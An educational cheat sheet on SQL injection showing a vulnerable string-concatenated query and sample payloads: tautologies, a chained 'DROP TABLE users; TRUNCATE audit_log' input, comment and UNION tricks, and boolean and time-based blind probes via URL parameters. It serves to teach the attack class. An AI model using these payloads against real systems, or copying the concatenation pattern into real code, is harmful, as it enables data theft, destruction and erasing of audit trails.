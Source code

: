 # Example of SQL injection

SQL query in the code
```"SELECT * FROM users WHERE name = '" + userName + "'";```

Possible injections
- `Smith’ OR '1' = '1`
   results in SELECT * FROM users WHERE name = 'Smith' OR TRUE; and that way will return all entries from the users table

- `Smith’ OR 1 = 1; --`
   results in SELECT * FROM users WHERE name = 'Smith' OR TRUE;--'; and that way will return all entries from the users table

- `Smith’; DROP TABLE users; TRUNCATE audit_log; --`
   chains multiple SQL-Commands and deletes the USERS table as well as entries from the audit_log

# What is SQL query chaining?
Query chaining is exactly what it sounds like. 
When query chaining, you try to append one or more queries to the end of the actual query. 
You can do this by using the `;` metacharacter which marks the end of a query and that way allows to start another one right after it within the same line.

# Special Characters
```
/* */ 	 are inline comments
-- , # 	 are line comments

Example: SELECT * FROM users WHERE name = 'admin' --AND pass = 'pass'
```  

```
;        allows query chaining

Example: SELECT * FROM users; DROP TABLE users;
```

```
',+,||	 allows string concatenation
Char()	 strings without quotes

Example: SELECT * FROM users WHERE name = '+char(27) OR 1=1
```

# Special Statements
Union
```SELECT first_name FROM user_system_data UNION SELECT login_count FROM user_data;```

Joins
```SELECT * FROM user_data INNER JOIN user_data_tan ON user_data.userid=user_data_tan.userid;```

# Blind SQL Injection

Blind SQL injection is a type of SQL injection attack that asks the database true or false questions and determines the answer based on the applications response. 
This attack is often used when the web application is configured to show generic error messages, but has not mitigated the code that is vulnerable to SQL injection.

There are several different types of blind SQL injections: content-based and time-based SQL injections.

## Example
In this case we are trying to ask the database a boolean question based on for example an unique id, for example suppose we have the following url: https://my-shop.com?article=4 On the server side this query will be translated as follows:
```
SELECT * FROM articles WHERE article_id = 4
```

When we want to exploit this we change the url into: https://shop.example.com?article=4 AND 1=1 This will be translated to:
```
SELECT * FROM articles WHERE article_id = 4 and 1 = 1
```

- If the browser will return the same page as it used to when using https://shop.example.com?article=4 you know the website is vulnerable for a blind SQL injection
- If the browser responds with a page not found or something else you know a blind SQL injection might not work.
-  You can now change the SQL query and test for example: https://shop.example.com?article=4 AND 1=2 which will not return anything because the query returns false

Ask more information, e.g. database version
```
https://shop.example.com?article=4 AND substring(database_version(),1,1) = 2
```

## Time-based SQL Injection
Another way is called a time-based SQL injection, in this case you will ask the database to wait before returning the result. You might need to use this if you are totally blind so there is no difference between the response you can use for example:
```
article = 4; sleep(10) --
```
